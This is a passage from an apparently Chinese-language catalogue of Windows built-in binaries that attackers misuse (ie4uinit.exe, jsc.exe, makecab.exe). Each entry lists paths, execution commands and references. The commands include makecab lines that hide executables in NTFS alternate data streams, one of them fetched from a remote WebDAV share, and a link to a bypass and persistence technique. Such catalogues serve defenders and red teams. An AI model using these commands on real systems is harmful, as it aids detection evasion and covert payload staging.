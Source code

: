 Ie4uinit.exe， Internet Explorer每用户初始化实用程序，它对图标缓存数据库执行操作，该图标缓存数据库是“％userprofile％\ AppData \ Local”子目录中的一个隐藏的“ .db”类型文件，图标缓存保留Windows或IE使用的图标副本，以避免重复重绘它们。

文件路径:
```
c:\windows\system32\ie4uinit.exe
c:\windows\sysWOW64\ie4uinit.exe
c:\windows\system32\ieuinit.inf
c:\windows\sysWOW64\ieuinit.inf
```
- 执行方式：
```
ie4uinit.exe -BaseSettings
```
- 参考资料：
```
https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
```
## Jsc.exe
- 使用说明：

jsc.exe是Microsoft Corporation开发的Microsoft®JScript .NET的一部分，用来将javascript代码编译为.exe或.dll格式的二进制文件。

文件路径:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Jsc.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Jsc.exe
C:\Windows\Microsoft.NET\Framework\v2.0.50727\Jsc.exe
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Jsc.exe
```
- 执行方式：
```
jsc.exe scriptfile.js
jsc.exe /t:library Library.js
```
- 参考资料：
```
https://twitter.com/DissectMalware/status/998797808907046913
https://www.phpied.com/make-your-javascript-a-windows-exe/
```
## Makecab.exe
- 使用说明：

Makecab.exe用于将文件打包成Cabinet（.cab）文件。

文件路径:
```
C:\Windows\System32\makecab.exe
C:\Windows\SysWOW64\makecab.exe
```
- 执行方式：
```
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
```
- 参考资料：
```
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
```
## Mmc.exe
- 使用说明：
